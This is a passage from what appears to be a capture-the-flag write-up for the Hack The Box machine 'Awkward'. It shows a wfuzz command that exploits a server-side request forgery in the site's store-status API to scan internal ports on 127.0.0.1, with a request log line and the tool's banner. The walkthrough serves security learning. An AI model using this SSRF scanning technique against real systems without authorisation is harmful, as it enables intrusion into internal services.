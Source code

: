     10.10.11.185 - - [26/Nov/2022 18:28:50] "GET / HTTP/1.1" 200 -



Not only that, but the results are shown in the body of the response:

![](/img/image-20220926143424885.png)

#### Find Open Services

I'll use `wfuzz` to look for any open ports on Awkward:



    oxdf@hacky$ wfuzz -z range,1-65535 --hh 0 -u http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
    Total requests: 65535

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
